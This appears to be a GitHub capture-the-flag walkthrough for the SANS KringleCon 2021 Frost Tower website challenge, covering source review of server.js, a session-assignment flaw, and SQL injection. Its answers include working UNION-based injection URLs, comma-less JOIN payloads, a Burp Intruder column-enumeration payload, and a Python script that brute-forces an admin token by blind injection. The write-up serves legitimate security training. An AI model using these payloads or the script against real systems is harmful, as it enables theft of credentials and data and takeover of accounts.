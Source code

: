 ## Summary
At the top right of the main courtyard, after thawing the Frost Tower door and fixing the Frostivator elevator, go to the top floor, Jack's Office. Enter the left room, called Studio, and talk with Ingreta about the Frost website and download the sourcecode. You will practice sourcecode review and web application hacking.

[Back to Table of Contents](https://github.com/minispooner/SANS_KringleCon_2021_Walkthrough/blob/main/README.md)

## Steps
1. Review the sourcecode for flaws. If you aren't able to find anything, you can go complete the Python coding challenges (where you move the little elf to collect candies) and after level 8, the elf there will give you a few hints about where the Frost Tower Website is vulnerable.
<details>
  <summary>The Elf's Hint</summary>
  He tells you to review a couple of lib docs - the npm express-session package (https://www.npmjs.com/package/express-session) and the mysqljs/mysql package (https://github.com/mysqljs/mysql).
</details>

2. Exploit the first vulnerability on the https://staging.jackfrosttower.com/ website
<details>
  <summary>Hint 1</summary>
  The server.js file imports the express-session package. Take a look at how it uses this lib to find developer flaws in session management.
</details>

<details>
  <summary>Hint 2</summary>
  The server.js file assigns the unauthenticated user a session when a certain unauthenticated call is made with certain logic. Try to trigger it and verify a valid session by browsing to the session-protected /dashboard page.
</details>

<details>
  <summary>Hint 3</summary>
  The server.js "/postcontact" method assigns the user a session when certain logic is followed. Try to trigger it and verify a valid session by browsing to the session-protected /dashboard page.
</details>

<details>
  <summary>Answer</summary>
  Submit the /contact form using some email address. Submit the form again, using the same email address. You now have a session and can navigate to /dashboard to confirm.
</details>

3. Exploit the second vulnerability on the https://staging.jackfrosttower.com/ website
<details>
  <summary>Hint 1</summary>
  The server.js file imports the mysql package. Take a look at the official docs to identify potential mistake points where developers may accidentally insecurely implement classes/calls.
</details>

<details>
  <summary>Hint 2</summary>
  The server.js "/detail/:id" method is a good place to look.
</details>

<details>
  <summary>Hint 3</summary>
  The server.js "/detail/:id" method calls the insecure raw() method on the mysql connection to execute a raw query. Try to manipulate the user input to exploit this vulnerability.
</details>

<details>
  <summary>Answer</summary>
  While "/detail/1,1 or 1=1" will successfully return all uniquecontact details, a UNION-based SQL injection will give you all database user password hashes too! You can build this exploit by reviewing the database tables sourcecode.
  https://staging.jackfrosttower.com/detail/1,2,4%20union%20select%20*%20from%20users--
</details>

4. Exploit the second vulnerability...again...
<details>
  <summary>What's this about?...</summary>
  After getting SQL injection and the password hashes, can we login as someone? (I didn't crack any hashes...)
</details>

<details>
  <summary>Hint 1</summary>
  There are some super-protected pages that need special perms on top of a session. Can you figure out how to get in?
</details>

<details>
  <summary>Hint 2</summary>
  Take a look at how the "token" value is used and think about how it can be obtained and used.
</details>

<details>
  <summary>Answer</summary>
  I bruteforced the Super Admin token (mxCamxRUVgBWr3l7uFR8uUbuQcAa496e) and reset their password and logged in as them. Code below. (CHANGE THE SESSION ID IN THE CODE!)

```
import requests, string
ALL = list(string.ascii_letters)
ALL.extend(string.digits)
print(ALL)
FINAL = ''

def test():
    global FINAL
    for injection in ALL:
        url = 'https://staging.jackfrosttower.com/detail/1,1%20union%20select%20*%20from%20users%20where%20id=1%20and%20token%20like%20%22HERE%25%22--'
        url = url.replace('HERE',FINAL + injection)

        r = requests.get(
            url,
            cookies={"connect.sid": "YOUR SESSION ID"}
        )
        # print(r.status_code)
        # print(r.text)
        if r.status_code!=200:
            FINAL = FINAL + injection
            print("FINAL: ", FINAL)
            if len(FINAL)==32:
                exit('DONE')

for i in range(0,32):
    test()

print('DONE')
```

</details>

<details>
  <summary>Alternative (better) Answer</summary>
  Use comma-less JOINs for arbitrary data SELECTs.
  https://staging.jackfrosttower.com/detail/1,1%20union%20select%20*%20from%20((select%201)A%20join%20(select%20token%20from%20users%20where%20id%20=1)B%20join%20(select%20%22%22)C%20join%20(select%20%22%22)D%20join%20(select%20%22%22)E%20join%20(select%20%22%22)F%20join%20(select%20%22%22)G)--
</details>

5. Exploit the second vulnerability...for the final answer!
<details>
  <summary>Hint 1</summary>
  Where could the todo list be? Enumerate the DB tables using the JOINs above.
</details>

<details>
  <summary>Hint 2</summary>
  The DB likely blocks FUNCTION calls and the INFORMATION_SCHEMA.COLUMNS table, so you have to bruteforce/enum the col names manually - or with BurpSuite Intruder!
</details>

<details>
  <summary>Answer</summary>
  Run this through BurpSuite Intruder
 
  /detail/1,1%20union%20select%20*%20from%20((select%201)A%20join%20(%20SELECT%20§1§%20FROM%20todo)B%20join%20(select%20%22%22)C%20join%20(select%20%22%22)D%20join%20(select%20%22%22)E%20join%20(select%20%22%22)F%20join%20(select%20%22%22)G)--
  
  And set the inject point to the "1" (already done in example above) in the "select 1 from todo" query. I used this wordlist:
  
  https://github.com/drtychai/wordlists/blob/master/sqlmap/common-columns.txt 
  
  Then I filtered results by length and found the two largest were id and note.
  Answer:
  
  https://staging.jackfrosttower.com/detail/1,1%20union%20select%20*%20from%20((select%201)A%20join%20(%20SELECT%20note%20FROM%20todo)B%20join%20(select%20%22%22)C%20join%20(select%20%22%22)D%20join%20(select%20%22%22)E%20join%20(select%20%22%22)F%20join%20(select%20%22%22)G)--
</details>

